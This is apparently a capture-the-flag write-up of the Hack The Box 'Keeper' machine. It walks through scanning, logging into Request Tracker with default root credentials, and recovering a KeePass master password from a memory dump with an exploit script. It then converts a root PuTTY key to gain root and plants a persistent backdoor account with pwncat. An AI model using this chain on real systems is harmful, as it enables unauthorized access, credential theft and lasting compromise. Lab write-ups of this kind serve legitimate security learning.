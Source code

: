 we start the machine with the classic port scan:
	
	rustscan -a 10.10.11.227
output:
	
	PORT   STATE SERVICE
	22/tcp open  ssh
	80/tcp open  http
so now that we know the open ports we can do a more accurate scan:
	
	nmap -sC -sV -p22,80 10.10.11.227
output:
	
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
	|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
	80/tcp open  http    nginx 1.18.0 (Ubuntu)
	|_http-server-header: nginx/1.18.0 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
so far nothing strange so let's enumerate the port 80:
	
![ip and port](./ip.png)
	
the site is telling us to visit this new page:
	
	To raise an IT support ticket, please visit tickets.keeper.htb/rt/
on this domain:
	
	tickets.keeper.htb
so we need to update our /etc/hosts file:
	
	echo '10.10.11.227	keeper.htb	tickets.keeper.htb' >> /etc/hosts
now we can visit the site and this appears:
	
![login page](./login.png)
	
this looks like an actual ticketing service for helpdesk.
so i tried to search it online and found this:
	
	https://bestpractical.com/request-tracker
so it is an actul software, so i searched default credentials or exploits;
i had like with the first guess in fact they are:
	
	username: root
	password: [REDACTED]
so we can now log in.
the site is pretty basic and i didn't find neither exploits or post-auth RCE;
so i searched in the account info for some stored creds or stuff like that and found this:
	
![credentials](./credentials.png)
	
now we can try and log in with the user that we see (i will use pwncat-cs for the SSH connection):
	
	python3 -m pwncat
and then inside pwncat interactive shell:
	
	connect ssh://lnorgaard:[REDACTED]@keeper.htb:22 
in fact we are in as the lnorgaard user!
	
	(remote) lnorgaard@keeper:/home/lnorgaard$
inside the home directory of the user we found a strange .zip file:
	
	-rw-r--r-- 1 root      root       87391651 Sep 23 19:02 RT30000.zip
when we unzip it inside we find:
	
	-rw-r----- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
	-rw-r----- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
i downloaded the .dmp file for passcracking as this article about KeePass password recovery says:
	
	https://github.com/CMEPW/keepass-dump-masterkey
i downloaded the file with scp (i could also use pwncat downlaod feature):
	
	scp lnorgaard@keeper.htb:/home/lnorgaard/KeePassDumpFull.dmp ./KeePassDumpFull.dmp
after the password prompt we can go on and try to crack the KeePass archive with the script inside
the github repo linked above (i only copied and saved the script to an exploit.py file):
	
	python3 exploit.py KeePassDumpFull.dmp
output:
	
	Possible password: ●,dgr●d med fl●de
	Possible password: ●ldgr●d med fl●de
	Possible password: ●`dgr●d med fl●de
	Possible password: ●-dgr●d med fl●de
	Possible password: ●'dgr●d med fl●de
	Possible password: ●]dgr●d med fl●de
	Possible password: ●Adgr●d med fl●de
	Possible password: ●Idgr●d med fl●de
	Possible password: ●:dgr●d med fl●de
	Possible password: ●=dgr●d med fl●de
	Possible password: ●_dgr●d med fl●de
	Possible password: ●cdgr●d med fl●de
	Possible password: ●Mdgr●d med fl●de
at first this ouput seamed meaningless but after some copy paste on google and CHAT-GPT i found out
(the comments on the webserver now makes sense) that
this is a nordic word for a cake or stuff like that; but we need to format it right:
	
	[REDACTED] med fløde
now we can open the .kdbx vault and see what's inside.
to do that we need to render the keepass file with its own programm:
	
	sudo apt install keepass2
now just type on the terminal:
	
	keepass2
and it will prompt the app where we can insert the file and the password we cracked
and we will see this:
	
![keepass app](./keepass.png)
	
now we have the ssh id_rsa of root user that i saved as '_key.root.ppk_';
but it's not like a regular id_rsa key, in fact it is a putty private key, so we need to convert it
to a rsa key in order to log with ssh client.
To do that i found this discussion online:
	
	https://superuser.com/questions/232362/how-to-convert-ppk-key-to-openssh-key-under-linux
in particular this comand is perfect for us! :
	
	puttygen id_dsa.ppk -O private-openssh -o id_dsa
so after installing puttygen with:	
	
	sudo apt install putty-tools
we can now run the command above with our saved key file:
	
	puttygen key.root.ppk -O private-openssh -o id_rsa
we now have a id_rsa file that we can use to log in as root:
	
	chmod 600 id_rsa
and then:
	
	ssh -i id_rsa root@keeper.htb
we are finally root and we can submit the root flag.
	
![root terminal](./root.png)
	
for test sake i runned the pwncat module to install persitence on the machine with just one command:
	
![persistence with pwncat](./persistence.png)
	
so now we can log in with ssh as Disturbante user and enter as root whenever we want:
	
	ssh Disturbante@keeper.htb	#input Disturbante ass password
and u will enter as root:
	
	Disturbante@keeper.htb's password: 
	Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	Last login: Sat Sep 23 20:00:50 2023 from 10.10.14.238
	root@keeper:~# 

